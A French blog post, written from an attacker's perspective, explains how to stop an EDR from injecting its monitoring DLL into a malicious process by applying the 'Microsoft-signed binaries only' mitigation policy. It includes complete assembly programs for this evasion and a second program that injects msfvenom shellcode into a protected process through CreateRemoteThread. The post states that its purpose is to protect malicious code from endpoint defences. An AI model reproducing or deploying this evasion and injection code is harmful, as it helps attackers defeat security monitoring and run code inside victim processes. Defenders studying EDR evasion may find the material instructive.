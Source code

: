 
Je présente ici une méthode de blocage de l'injection de DLL d'un point de vue de l'attaquant. En effet, il peut arriver qu'un poste victime ait installé sur son système un __EDR__ (Endpoint Detection and Response) qui effectue de l'injection de DLL sur chaque nouveau processus afin de hooker certaines fonctions dites "suspectes" (**CreateRemoteThread()**, **VirtualProtect()**, ...). En tant qu'attaquant, on ne veut pas que notre processus malveillant subisse de l'injection de DLL.

Les méthodes d'injection de DLL que j'ai présenté précédement sont: 

* https://dokyx.fr/blog/oirtslkdf_injectdll_createremotethread/

* https://dokyx.fr/blog/uyniouliu_injectdll_ntcreatethreadex/

* https://dokyx.fr/blog/lsdjqfqf_injectdll_rtlcreateuserthread/

* https://dokyx.fr/blog/sdkjsd_injectdll_setwindowshookex/

Il me reste encore quelques méthodes d'injection de DLL à présenter, mais j'avoue que je commence à me lasser un peu. C'est pourquoi, je vous présente cette technique qui permet de bloquer l'injection de DLL avant la fin de la série sur l'injection de DLL. Même si ça reste dans le thème ^^

Il est possible de spécifier une liste d'attributs lors de la création d'un thread/processus. Ces attributs permettent notamment de spécifier les politiques d'atténuation (**mitigation policies**), comme l'__ASLR__, le __DEP__, etc. On peut voir cette politique d'atténuation sur un processus quelconque sur la capture ci-dessous en guise d'exemple:

![image alt text](/images/dll-injection/block_mitigation_std.png)

On y voit bien que l'__ASLR__ (Address Space Layout Randomization) et le __DEP__ (Data Execution Prevention) sont mises en place. Il existe de multiples autres politique d'atténuation, dont une qui s'appelle:

* <span style="color:red">Signatures restricted (Microsoft only)</span>

C'est celle-là qui va nous intéresser car elle spécifie que seules les binaires DLLs signées par Microsoft ont la possibilité d'être injectées dans le processus/thread ciblé.

C'est une aubaine, car l'__EDR__ présent sur la machine victime qui fera de l'injection de DLL, ne poussera certainement pas une DLL signée par Microsoft, ce qui bloquera donc son mécanisme d'injection.

Curieusement ce procédé de manipulation des attributs est présenté dans la msdn: https://docs.microsoft.com/fr-fr/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute

Il suffit alors de reprendre le code présenté par Microsoft :). __xpn__ reprend d'ailleurs cette méthode et l'adapte à du code VBA: https://blog.xpnsec.com/protecting-your-malware/

Pour modifier la politique d'atténuation d'un processus, il faut d'abord initialiser la liste d'attributs, puis la mettre à jour. Pour cela, je vais utiliser les fonctions __InitializeProcThreadAttributeList()__ (kernel32.dll), et __UpdateProcThreadAttribute()__ (kernel32.dll). L'exemple fourni par la msdn utilise également __HeapAlloc()__ (kernel32.dll), pour contenir la liste d'attributs. Pour ma part, je vais utiliser __VirtualAlloc()__ (kernel32.dll); c'est juste une question de préférences.

Ceux qui ont regardé la msdn de la fonction __UpdateProcThreadAttribute()__ (https://docs.microsoft.com/fr-fr/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) ont vu qu'il y avait de très nombreux attributs disponibles. Celui qui permet d'avoir la politique __Signature restricted (Microsoft only)__ est:

* <span style="color:red"> PROCESS\_CREATION\_MITIGATION\_POLICY\_BLOCK\_NON\_MICROSOFT\_BINARIES\_ALWAYS\_ON</span>

Afin de pouvoir modifier la polique d'atténuation, il faut pouvoir modifier la structure __STARTUPINFOEXA__ (https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexa) dont la structure est présentée ci-dessous:

```
STARTUPINFOEXA struct
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
STARTUPINFOEXA ends
```

On voit que la liste d'attributs sera spécifée dans l'élément __lpAttributeList__.

Le bout de code qui permet de d'initialiser une politique d'atténuation différente de celle qui est classiquement utilisée lors de la création d'un processus est alors:


```
InitializeProcThreadAttributeList PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD
VirtualAlloc PROTO :DWORD,:DWORD,:DWORD,:DWORD

; https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
STARTUPINFOA    struct 
	cb    			DWORD    ?
	lpReserved    	DWORD    ?
	lpDesktop    	DWORD    ?
	lpTitle    		DWORD    ?
	dwX    			DWORD    ?
	dwY    			DWORD    ?
	dwXSize    		DWORD    ?
	dwYSize    		DWORD    ?
	dwXCountChars   DWORD    ?
	dwYCountChars   DWORD    ?
	dwFillAttribute DWORD    ?
	dwFlags    		DWORD    ?
	wShowWindow    	WORD    ?
	cbReserved2    	WORD    ?
	lpReserved2    	DWORD    ?
	hStdInput    	DWORD    ?
	hStdOutput    	DWORD    ?
	hStdError    	DWORD    ?
STARTUPINFOA    ends

; https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexa
STARTUPINFOEXA struct
	StartupInfo   	STARTUPINFOA <>
	lpAttributeList DWORD ?
STARTUPINFOEXA ends

.data?
	startinfo       STARTUPINFOA <>
    	startinfoex     STARTUPINFOEXA <>

.code
	push 	offset lpSize
	push 	0
	push 	1
	push 	0
	call 	InitializeProcThreadAttributeList

	push 	4 ; PAGE_READWRITE
	push 	1000h ; MEM_COMMIT
	push 	[lpSize]
	push 	0
	call 	VirtualAlloc
	mov 	startinfoex.lpAttributeList, eax

	push 	offset lpSize
	push 	0
	push 	1
	push 	startinfoex.lpAttributeList
	call 	InitializeProcThreadAttributeList
```

Et le bout de code qui permet de mettre à jour cette politique d'atténuation (__Signature restricted (Microsoft only)__) est:

```
UpdateProcThreadAttribute PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD

policy struct
	part1 DWORD ?
	part2 DWORD ?
policy ends

.data?
	pol	policy <>

.code
	; PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON
	mov 	pol.part1, 0
	mov 	pol.part2, 1000h

	; https://docs.microsoft.com/fr-fr/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute
	push 	0
	push 	0
	push 	sizeof pol
	push 	offset pol
	push 	20007h; PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY
	push 	0
	push 	startinfoex.lpAttributeList
	call 	UpdateProcThreadAttribute
```

Il s'agit à présent de définir le processus qui aura cette nouvelle politique d'atténuation. Je choisi pour l'exemple de lancer une invite de commande (__cmd.exe__), mais cela aurait pû être n'importe quel autre code malveillant ^^ J'utilise pour ça la fonction __CreateProcess()__ (kernel32.dll) comme suit:

```
.data
	pName 	db "C:\Windows\System32\cmd.exe", 0

.data?
	procinfo        PROCESS_INFORMATION <>
.code
	push 	offset procinfo
	push 	offset startinfoex
	push 	0
	push 	0
	push 	80000h ;EXTENDED_STARTUPINFO_PRESENT
	push 	1
	push 	0
	push 	0
	push 	offset pName
	push 	0
	call 	CreateProcessA
```

Une fois compilé et exécuté, notre code malveillant va donc lancer __cmd.exe__ avec une politique d'atténuation qui empêche toute injection de DLL possible excepté pour une DLL signé par Microsoft. Notre EDR n'a qu'à bien se tenir, nondidiou ! On peut voir ci-dessous la capture présentant ce résultat:

![image alt text](/images/dll-injection/block_mitigation.png)

<details><summary><font color="red">Ici se trouve le code permettant de bloquer l'injection de DLL</font></summary>
<p>
```
.586
.model flat, stdcall

; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL dwExitCode:DWORD
CreateProcessA PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD
InitializeProcThreadAttributeList PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD
UpdateProcThreadAttribute PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD
VirtualAlloc PROTO :DWORD,:DWORD,:DWORD,:DWORD

; https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
PROCESS_INFORMATION    struct 
	hProcess    	DWORD    ?
	hThread    	DWORD    ?
	dwProcessId    	DWORD    ?
	dwThreadId    	DWORD    ?
PROCESS_INFORMATION    ends

; https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
STARTUPINFOA    struct 
	cb    		DWORD    ?
	lpReserved    	DWORD    ?
	lpDesktop    	DWORD    ?
	lpTitle    	DWORD    ?
	dwX    		DWORD    ?
	dwY    		DWORD    ?
	dwXSize    	DWORD    ?
	dwYSize    	DWORD    ?
	dwXCountChars   DWORD    ?
	dwYCountChars   DWORD    ?
	dwFillAttribute DWORD    ?
	dwFlags    	DWORD    ?
	wShowWindow    	WORD    ?
	cbReserved2    	WORD    ?
	lpReserved2    	DWORD    ?
	hStdInput    	DWORD    ?
	hStdOutput    	DWORD    ?
	hStdError    	DWORD    ?
STARTUPINFOA    ends

; https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexa
STARTUPINFOEXA struct
	StartupInfo   	STARTUPINFOA <>
	lpAttributeList DWORD ?
STARTUPINFOEXA ends

policy struct
	part1 DWORD ?
	part2 DWORD ?
policy ends

.data
	pName 		db "C:\Windows\System32\cmd.exe", 0

.data?
    	startinfo       STARTUPINFOA  <>
    	startinfoex     STARTUPINFOEXA  <>
    	procinfo        PROCESS_INFORMATION <>
    	lpSize 	    	dd ?
    	pol 	    	policy <>

.code
Start PROC

	push 	offset lpSize
	push 	0
	push 	1
	push 	0
	call 	InitializeProcThreadAttributeList

	push 	4 ; PAGE_READWRITE
	push 	1000h ; MEM_COMMIT
	push 	[lpSize]
	push 	0
	call 	VirtualAlloc
	mov 	startinfoex.lpAttributeList, eax

	push 	offset lpSize
	push 	0
	push 	1
	push 	startinfoex.lpAttributeList
	call 	InitializeProcThreadAttributeList

	; PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON
	mov 	pol.part1, 0
	mov 	pol.part2, 1000h

	; https://docs.microsoft.com/fr-fr/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute
	push 	0
	push 	0
	push 	sizeof pol
	push 	offset pol
	push 	20007h; PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY
	push 	0
	push 	startinfoex.lpAttributeList
	call 	UpdateProcThreadAttribute

	push 	offset procinfo
	push 	offset startinfoex
	push 	0
	push 	0
	push 	80000h ;EXTENDED_STARTUPINFO_PRESENT
	push 	1
	push 	0
	push 	0
	push 	offset pName
	push 	0
	call 	CreateProcessA

_exit:
	xor eax, eax
	push eax
	call ExitProcess
	

Start ENDP
END

```
</p>
</details>

Il est intéressant d'utiliser les programmes que l'on a confectionné dans les articles précédents afin d'effectuer de l'injection de DLL et de constater qu'ils ne fonctionnent plus \\\\(^.^)//

![image alt text](/images/dll-injection/block_error.png)

En revanche, on a quand même envie de pouvoir bypasser cette mesure de protection si jamais on a envie de s'injecter dans un processus qui a ce genre de politique d'atténuation. J'ai pu constaté qu'une injection de code (pas de DLL, hein) fonctionne tout à fait. Ainsi le code suivant qui effectue de l'injection de code dans un processus qui a la politique d'atténuation __Signature restricted (Microsoft only)__ fonctionne tout à fait.

<details><summary><font color="red">Ici se trouve le code permettant de faire de l'injection de code dans un processus ayant la politique d'atténuation __Signature restricted (Microsoft only)__</font></summary>
<p>
```
.586
.model flat, stdcall

; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL :DWORD
OpenProcess PROTO STDCALL :DWORD,:DWORD,:DWORD
VirtualAllocEx PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
WriteProcessMemory PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
CreateRemoteThread PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD,:DWORD,:DWORD

.data
	PID 		dd 2412

	; msfvenom -p windows/exec cmd=calc.exe -f hex
        shellcode  db 90h
       		db 0fch,0e8h,082h,000h,000h,000h,060h,089h,0e5h,031h,0c0h,064h,08bh,050h
                db 030h,08bh,052h,00ch,08bh,052h,014h,08bh,072h,028h,00fh,0b7h,04ah,026h
                db 031h,0ffh,0ach,03ch,061h,07ch,002h,02ch,020h,0c1h,0cfh,00dh,001h,0c7h
                db 0e2h,0f2h,052h,057h,08bh,052h,010h,08bh,04ah,03ch,08bh,04ch,011h,078h
                db 0e3h,048h,001h,0d1h,051h,08bh,059h,020h,001h,0d3h,08bh,049h,018h,0e3h
                db 03ah,049h,08bh,034h,08bh,001h,0d6h,031h,0ffh,0ach,0c1h,0cfh,00dh,001h
                db 0c7h,038h,0e0h,075h,0f6h,003h,07dh,0f8h,03bh,07dh,024h,075h,0e4h,058h
                db 08bh,058h,024h,001h,0d3h,066h,08bh,00ch,04bh,08bh,058h,01ch,001h,0d3h
                db 08bh,004h,08bh,001h,0d0h,089h,044h,024h,024h,05bh,05bh,061h,059h,05ah
                db 051h,0ffh,0e0h,05fh,05fh,05ah,08bh,012h,0ebh,08dh,05dh,06ah,001h,08dh
                db 085h,0b2h,000h,000h,000h,050h,068h,031h,08bh,06fh,087h,0ffh,0d5h,0bbh
                db 0f0h,0b5h,0a2h,056h,068h,0a6h,095h,0bdh,09dh,0ffh,0d5h,03ch,006h,07ch
                db 00ah,080h,0fbh,0e0h,075h,005h,0bbh,047h,013h,072h,06fh,06ah,000h,053h
                db 0ffh,0d5h,063h,061h,06ch,063h,02eh,065h,078h,065h,000h
        endShellcode db 0

.data?
    	hProcess 	dd ?
 	baseAddr	dd ?
 	hKrnl32Addr 	dd ?
 	hLoadLibAddr 	dd ?

.code

Start PROC
; calculate the lenght of the shellcode
        mov     	eax, offset shellcode
        mov     	esi, offset endShellcode
        sub     	esi, eax

_openProcess:
	mov 		eax, PID
	push 		eax
	push 		0
	push 		1F0FFFh ; PROCESS_ALL_ACCESS
	call 		OpenProcess
	cmp 		eax, 0
	jz 		_exit
	mov 		[hProcess], eax
	
_virtualAllocEx:
	push 		40h ; PAGE_EXECUTE_READWRITE
	push 		3000h ; MEM_RESERVE or MEM_COMMIT
	push 		esi
	push  		0
	push 		hProcess
	call 		VirtualAllocEx
	cmp 		eax, 0
	jz 		_exit
	mov 		[baseAddr], eax

_writeProcessMemory:
	push 		0
	push  		esi
	push 		offset shellcode
	push 		baseAddr
	push 		hProcess
	call 		WriteProcessMemory
	cmp 		eax, 0
	jz 		_exit

_createRemoteThread:
	push 		0
	push 		0
	push  		baseAddr
	push 		baseAddr
	push 		0
	push 		0
	push 		hProcess
	call 		CreateRemoteThread
	cmp 		eax, 0
	jz 		_exit

_exit:
	xor eax, eax
	push eax
	call ExitProcess

Start ENDP
```
</p>
</details>

Je vous laisse décortiquer ce code tout seul, il n'est pas très différent de celui utilisé pour effectuer de l'injection de DLL via __CreateRemoteThread()__. Le code malveillant utilisé ici est une payload issue de metasploit (__WinExec()__ de __calc.exe__) crée comme suit:

```
msfvenom -p windows/exec cmd=calc.exe -f hex
```

On a pu voir dans cet article comment modifier la politique d'atténuation de nos codes malveillants afin d'empêcher un EDR d'y effectuer de l'injection de DLL. 

De plus, j'ai présenté une manière de contourner cette politique d'atténuation (Signature restricted (Microsoft only)) si l'on souhaite s'injecter dans un processus qui a la-dite politique d'atténuation, en effectuant de l'injection de code.

C'est donc une méthode très puissante et qui est malheureusement/heureusement très bien documentée dans la msdn.



